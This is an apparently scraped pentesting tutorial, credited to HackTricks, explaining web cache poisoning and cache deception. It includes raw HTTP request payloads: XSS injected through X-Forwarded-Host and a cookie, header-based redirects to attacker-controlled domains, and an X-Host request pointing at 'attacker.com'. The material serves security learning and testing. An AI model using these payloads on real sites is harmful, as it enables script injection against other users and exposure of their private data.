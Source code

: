 Cache Poisoning and Cache Deception
The difference
What is the difference between web cache poisoning and web cache deception?
In web cache poisoning, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
In web cache deception, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.
Cache Poisoning
The goal of poisoning the cache is to make the clients load unexpected resources partially or totally controlled by the attacker.
The poisoned response will only be served to users who visit the affected page while the cache is poisoned. As a result, the impact can range from non-existent to massive depending on whether the page is popular or not.
In order to perform a cache poisoning attack you need first to identify ukeyed inputs (parameters not needed to appear on the the cached request but that change the returned page), see how to abuse this parameter and get the response cached.
Identify and evaluate unkeyed inputs
You could use  to brute-force parameters and headers that may be changing the response of the page. For example, a page may be using the header X-Forwarded-For to indicate the client to load script from there:
<script type="text/javascript" src="//<X-Forwarded-For_value>/resources/js/tracking.js"></script>
Elicit a harmful response from the back-end server
With the parameter/header identified check how it is being sanitised and where is it getting reflected or affecting the response from the header. Can you abuse it any any way (perform a XSS or load a JS code controlled by you? perform a DoS?...)
Get the response cached
Once you have identified the page that can be abused, which parameter/header to use and how to abuse it you need to get the page cached. Depending on the resource you are trying to get in the cache this could time more or less time and some times you just will need to be trying several seconds.
The header X-Cache in the response could be very useful as it may have the value miss when the request wasn't cached and the value hit when it is cached.
The header Cache-Control is also interesting to know if a resource is being cached and when will be the next time the resource will be cached again: Cache-Control: public, max-age=1800
Another interesting header is Vary . This header is often used to indicate additional headers that are treated as part of the cache key even if they are normally unkeyed. Therefore, if the user knows the User-Agent of the victim he is targeting, he can poison the cache for the users using that specific User-Agent.
One more header related to the cache is Age. It defines the times in seconds the object has been in the proxy cache.
When caching a request, be careful with the headers you use because some of them could be used unexpectedly as keyed and the victim will need to use that same header. Always test a Cache Poisoning with different browsers to check if it's working.
Examples
Easiest example
A header like X-Forwarded-For is being reflected in the response unsanitized>
You can send a basic XSS payload and poison the cache so everybody that access page will be XSSed:
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
Note that this will poison a request to /en?region=uk not to /en
Using web cache poisoning to exploit cookie-handling vulnerabilities
Cookies could also be reflected on the response of a page. If you can abuse it to cause a XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.
Using multiple headers to exploit web cache poisoning vulnerabilities
Some time you will need to exploit several ukneyed inputs to be able to abuse a cache. For example, you may find an Open redirect if you set X-Forwarded-Host to a domain controlled by you and X-Forwarded-Scheme to http.If the server is forwarding all the HTTP requests to HTTPS and using the header X-Forwarded-Scheme as domain name for the redirect. You can control where the pagepointed by the redirect.
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
Exploiting with limited Varyheader
If you found that the X-Host header is being used as domain name to load a JS resource but the Vary header in the response is indicating User-Agent . Then, you need to find a way to ex-filtrate the User-Agent of the victim and poison the cache using that user agent:
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
Exploiting HTTP Cache Poisoning abusing HTTP Request Smuggling
Learn here about how to perform .
Cache Deception
The goal of Cache Deception is to make clients load resources that are going to be saved by the cache with their sensitive information.
A very clear example can be found in this write-up: .
In the example it is explained that if you load a non-existent page like  the content of  (with the users sensitive information) is going to be returned and the cache server is going to save the result.
Then, the attacker can access  and see the confidential information of the users that accessed before.
Note that the cache proxy should be configured to cache files based on the extension of the file (.css) and not base on the content-type. In the example  will have a text/html content-type instead of a text/css mime type (which is the expected for a .css file).
Learn here about how to perform.

Credit: https://hacktricks.boitatech.com.br/pentesting-web/cache-deception
